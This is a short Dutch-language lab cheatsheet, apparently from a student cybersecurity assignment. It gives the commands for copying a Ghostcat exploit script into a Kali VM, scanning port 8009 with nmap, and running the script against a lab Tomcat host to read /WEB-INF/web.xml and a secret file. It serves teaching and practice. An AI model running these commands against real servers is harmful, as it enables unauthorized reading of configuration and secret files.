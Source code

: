 # 🗒️ Cheatsheat

Volg de stappen hieronder om de aanval succesvol uit te voeren

## Host

Open een terminal vanaf de host om het bestand over te zetten naar de kali vm

```bash
# Voor windows gebruiker
scp -P 2222  "C:/Users/<Gebruikersnaam>/<Het pad waar je de folder hebt opgeslagen>/cyber-npe-opdracht/scripts/python/exploit_ghostcat.py" osboxes@localhost:~/Desktop
# Voor linux gebruiker
scp -P 2222  "/home/<gebruikersnaam>/<Het pad waar je de folder hebt opgeslagen>/cyber-npe-opdracht/scripts/python/exploit_ghostcat.py" osboxes@localhost:~/Desktop
```

## Kali

Open een terminal in de ubuntu vm en voer volgende commando's uit

```bash
su -
cd /home/osboxes/Desktop
chmod +x exploit_ghostcat.py
nmap 10.10.10.4 -p 8009
python3 exploit_ghostcat.py http://10.10.10.4:8080/ 8009 /WEB-INF/web.xml read
python3 exploit_ghostcat.py http://10.10.10.4:8080/ 8009 /WEB-INF/secret.txt read
```
